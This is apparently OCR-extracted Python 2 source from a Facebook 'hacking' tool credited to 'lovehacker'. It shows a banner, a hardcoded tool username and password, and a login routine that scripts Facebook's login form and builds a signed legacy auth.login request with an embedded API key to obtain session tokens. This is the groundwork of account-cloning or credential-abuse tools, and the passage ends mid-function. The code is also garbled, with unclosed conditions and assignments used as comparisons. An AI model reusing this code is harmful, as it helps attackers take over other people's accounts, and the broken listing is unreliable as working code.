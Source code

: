 oks = []
id = []
listgrup = []
vulnot = "\033[31mNot Vuln"
vuln = "\033[32mVuln"
os.system("clear")
print "\033[1;96m ========================================="
print  """\033[1;91m=======================================
\033[1;96mAuthor  \033[1;93m: \033[1;92mlove
\033[1;96mYouTube \033[1;93m: \033[1;92mlovehacker
\033[1;96mGitHub  \033[1;93m: \033[1;92mhttps://github.com/lovehacker/love
\033[1;96mpage \033[1;93m: \033[1;92mhttps://www.facebook.com/lovehacker
\033[1;91m======================================="""
print " \x1b[1;93m============================================================="
CorrectUsername = "subhanudin1062"
CorrectPassword = "sufyan12"
loop = 'true'
while (loop == 'true'):
    username = raw_input("\033[1;96m \x1b[1;93mUsername Of Tool \x1b[1;96m>>>> ")
    if (username == subhanudin1062
    	password = sufyan12
        if (password = sufyan12
            print "Logged in successfully as " + username
            loop = 'false'
        else:
            print "Wrong Password"
            os.system('xdg-open https://www.facebook.com/Anonymoustricker1')
    else:
        print "Wrong Username"
        os.system('xdg-open https://www.facebook.com/Anonymoustricker1')
def login():
	os.system('clear')
	try:
		toket = open('login.txt','r')
		menu() 
	except (KeyError,IOError):
		os.system('clear')
		print logo
		print 42*"\033[1;96m="
		print('\033[1;96m\x1b[1;93mLOGIN WITH FACEBOOK \x1b[1;96m' )
		id = raw_input('\033[1;96m \x1b[1;93mID/Email \x1b[1;91m: \x1b[1;92m')
		pwd = raw_input('\033[1;96m \x1b[1;93mPassword \x1b[1;91m: \x1b[1;92m')
		tik()
		try:
			br.open('https://m.facebook.com')
		except mechanize.URLError:
			print"\n\033[1;96m \x1b[1;91mThere is no internet connection"
			keluar()
		br._factory.is_html = True
		br.select_form(nr=0)
		br.form['email'] = id
		br.form['pass'] = pwd
		br.submit()
		url = br.geturl()
		if 'save-device' in url:
			try:
				sig= 'api_key=882a8490361da98702bf97a021ddc14dcredentials_type=passwordemail='+id+'format=JSONgenerate_machine_id=1generate_session_cookies=1locale=en_USmethod=auth.loginpassword='+pwd+'return_ssl_resources=0v=1.062f8ce9f74b12f84c123cc23437a4a32'
				data = {"api_key":"882a8490361da98702bf97a021ddc14d","credentials_type":"password","email":id,"format":"JSON", "generate_machine_id":"1","generate_session_cookies":"1","locale":"en_US","method":"auth.login","password":pwd,"return_ssl_resources":"0","v":"1.0"}
				x=hashlib.new("md5")
				x.update(sig)
